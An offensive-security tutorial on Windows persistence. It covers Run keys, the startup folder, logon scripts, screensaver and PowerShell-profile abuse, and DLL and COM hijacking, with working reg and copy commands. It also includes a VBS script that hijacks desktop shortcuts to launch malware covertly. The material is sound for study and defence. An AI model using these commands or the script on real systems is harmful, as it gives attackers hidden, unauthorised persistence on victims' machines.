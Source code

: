 ```yaml
---
title: "Windows Persistence"
classes: wide
header:
  teaser: /assets/images/esc.png
ribbon: DodgerBlue
description: "Windows Persistence vectors explanation"
categories:
  - Offensive
toc: true
---
```


# Non Privileged vector

## Startup Folder / Registry keys

This is a basic technique used a lot, it works by just adding your application in one of those places.

    copy "app path" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
    reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v MSUpdate /t REG_SZ /d "app path" /f

## Logon Script

when the user logs in there is a process called "userinit.exe" which does many things one of them is launching Logon Scripts.
you can create logon scripts with the following command...

    reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /d "script path" /t REG_SZ /f

## Shortcuts Modification

This is working by modifying the command launched by the shortcut."Don't forget to do that in a way that makes the shortcut behave as expected from the user"
here is a VBS script that does that. "don't forget to modify it based on your needs"

```java
' malware path
malware = ""
' the path of the actual script that will be launched "Created by the script"
executed_script = "exec.vbs"
' target shortcut name
lnkName = ""

' helper vars
set WshShell = WScript.CreateObject("WScript.Shell" )
' Chose the folder of the lnk file
strDesktop = WshShell.SpecialFolders("Desktop" )
set oShellLink = WshShell.CreateShortcut(strDesktop & "\" & lnkName )
origTarget = oShellLink.TargetPath
origArgs = oShellLink.Arguments
origIcon = oShellLink.IconLocation
origDir = oShellLink.WorkingDirectory

' persistence malwareation
Set FSO = CreateObject("Scripting.FileSystemObject")
Set File = FSO.CreateTextFile(executed_script,True)
File.Write "Set oShell = WScript.CreateObject(" & chr(34) & "WScript.Shell" & chr(34) & ")" & vbCrLf
File.Write "oShell.Run " & chr(34) & malware & chr(34) & vbCrLf
File.Write "oShell.Run " & chr(34) & oShellLink.TargetPath & " " & oShellLink.Arguments & chr(34) & vbCrLf
File.Close

oShellLink.TargetPath = executed_script
oShellLink.IconLocation = origTarget & ", 0"
oShellLink.WorkingDirectory = origDir
oShellLink.WindowStyle = 7
oShellLink.Save

```

## ScreenSavers

This technique is modifying "or adding if not exist" the value of the screen saver key in the registry to be our app so when the screen saver is triggered that will launch the app.
we can do that using the following commands...

    reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "app path" /f
    reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "10" /f

## Powershell Profile

This technique needs PowerShell to run something to be triggered.
In PowerShell, profiles are the settings that are saved in a specific folder which is run each time PowerShell is executed.
you can do that by the following command...

      echo "app path" > %HOMEPATH%"\Documents\windowspowershell\profile.ps1

## DLL Hijacking

Once you are in the device then you know the applications that are presented on this device, one way to find a way to persist in the machine is to test the already persistent apps used on the machine on your own machine looking for DLL hijacking vulnerabilities.

So What's DLL hijacking vulnerability?!

Once an application starts it tries to load its needed libraries, the vulnerability here comes when the app search order is looking for that library in a place we control before the actual place of the library and we can easily spot that using the Sysinternals tool "Procmon" using a good filter will make the process goes quickly."Don't forget to implement the actual functionality needed by the application on your malicious dll to prevent the app from crashing".

    Tip: You can filter the procmon search to automatically just show you the dlls that were searched and not found.

## COM Hijacking

Component Object Model (COM) COM is a platform-independent, distributed, object-oriented system for creating binary software components that can interact.

when the app needs to call a COM service it uses the following diagram

![error loading](/assets/images/com.png)

the SCM is given a GUID for the needed COM object and starts searching in the HKCU and will not go to HKLM if he found the needed COM object, and because we have all rights to right on HKCU we can hijack the flow and make the app loads our own dll.
we can use task schedular to look for potentially vulnerable apps by exporting its data and searching for the "ComHandler" tag with the "LogonTriger" tag, and search if that COM object is not presented in HKCU.

    schtasks /query /xml > tasks.xml

